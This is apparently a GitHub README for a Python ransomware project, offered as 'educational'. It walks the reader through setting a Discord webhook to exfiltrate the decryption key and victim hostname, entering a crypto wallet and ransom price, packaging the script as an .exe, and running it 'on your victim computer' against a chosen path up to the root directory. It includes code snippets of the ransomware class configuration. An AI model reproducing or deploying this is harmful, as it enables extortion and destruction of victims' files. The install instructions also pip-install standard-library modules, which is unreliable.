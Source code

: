 ![This is an image](https://i.ibb.co/CV9mKzD/Background.png)



<h1 align="center">RANSOMWARE.PY</h1>

<div align="center">
  <strong>Ransomware made with python, open-source project.</strong>
  <br>
  <br>

  <a href="https://travis-ci.com/kyb3r/dhooks">
    <img src="https://img.shields.io/travis/com/kyb3r/dhooks/master.svg?style=for-the-badge&colorB=06D6A0" alt="Travis" />
  </a>
  
  <a href="https://test-dhooks-doc.readthedocs.io/en/latest/?badge=latest">
    <img src="https://img.shields.io/readthedocs/dhooks.svg?style=for-the-badge&colorB=E8BE5D" alt="Documentation Status" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/">
    <img src="https://img.shields.io/pypi/pyversions/dhooks.svg?style=for-the-badge&colorB=F489A3" alt="Py Versions" />
  </a>

  <a href="https://pypi.org/project/dhooks/">
    <img src="https://img.shields.io/pypi/v/dhooks.svg?style=for-the-badge&colorB=61829F" alt="PyPi" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/kyb3r/dhooks.svg?style=for-the-badge&colorB=7289DA" alt="LICENSE" />
  </a>
</div>
<br>



Here is an open-source program that allows you to understand the creation of a ransomware via **python**. I remind you that this is only for **educational purposes**, I am not responsible for any problems related to these scripts.

- **How it works ?**

In order to be able to encrypt the files and decrypt them, I use the `cryptography.fernet` module. This module allows to encrypt a message or files only accessible with a decryption key.

If you want to convert the .py file into a `.exe` file its possible ! Using [pyinstaller](https://pyinstaller.org/en/stable/)

## Authors

- [@zaqoQLF](https://www.github.com/zaqoQLF)


## Installation Windows
![Logo](https://i.ibb.co/tJBNv9x/Screenshot-2022-05-24-at-8-07-34-PM.png)

In order to be able to install all the dependencies you will need to have `pip` installed and run the commands below. If you are on **windows** run the `install.bat` file and the installation will be done automatically

```bash
  pip install os
  pip install time
  pip install socket
  pip install cryptography
  pip install discord_webhook
  pip install colorama
  pip install binascii
```

In the `ransomware.py` can modify some values like the `Discord Webhook`, your CryptoCurrency Wallet, the requested price, and the currency desired.

```python
  class ransomware:
    def __init__(self):
        self.files_to_encrypt = []
        self.KeyStore = []
        self._keyEncrypt = Fernet.generate_key()
        self.dc_webhook = DiscordWebhook("Your Discord Webhook Here")
        self.wallet_url = "YOUR WALLET URL"
        self.priceToAsk = "Price To Ask Here"
        self.currency = "Crypto Currency Choice"
  ```

    
## Running Scripts

![Logo](https://i.ibb.co/1qGfTKF/Screenshot-2022-05-24-at-8-06-10-PM.png)

To be able to execute the files you will have to run these commands

The script must be run on your victim computer.
```python
  python3 ransomware.py
```

By default the files which will be encrypted will be those which are in the current working directories, to specify the path you can add this for example:
for more information click [here](https://www.geeksforgeeks.org/python-os-listdir-method/)

```python 
  path = "/"   # "/" correspond to the root file but you can custom with a custom path example C: Boot or D:/
  for file in os.listdir(path): # then specify the path as parameter
```

If the decryption key correspond it will shows you this:

![Decryption Accepted](https://i.ibb.co/1s4RSrg/rightkey.png)

Else, it will return an error and keep your files encrypted until you have the right decryption key :

![Decryption Rejected](https://i.ibb.co/D5MngLn/incorrect-Key.png)

## How Encryption works ?

The encryption will change all your victim's current file (in the directory chosen) by an encryption that will be only readable/decryptable with a key. ( The key will be send on Discord with webhook, you need to put the link of your webhook in the `self.dc_webhook = ""`).

For example i got here a `.txt.` file and i will encrypt it.

![txt file](https://i.ibb.co/pR56FRT/hello-World.png)

So, first of all in my directory i only got this txt file and my script, you can make some exception to avoid encryption on some specified files.
If i run my script it will encrypt it and it will be not readable anymore until the victim's got the key

![GIF](https://i.ibb.co/RCV2HMF/ezgif-1-a906ee1eb7.gif)


  



To decrypt the victim files he will need the encryption key, you will receive it by webhook through discord webhook.

  
## Discord Webhooks

![App Screenshot](https://i.ibb.co/cQ7z9Y8/Screenshot-2022-05-24-at-8-09-39-PM.png)

- In this code there is a system that allows you to receive via webhook the hostname on which computer the ransomware was executed as well as the decryption key. 

- [FIXED - WORKS] For the moment the key cannot be used but you can change that by putting an input in the script and converting the string to bytes, base64 url-safe

![App Screenshot](https://i.ibb.co/KFSn0dQ/webhook2.png)
![App Screenshot](https://i.ibb.co/RDNbssh/ransomware.png)


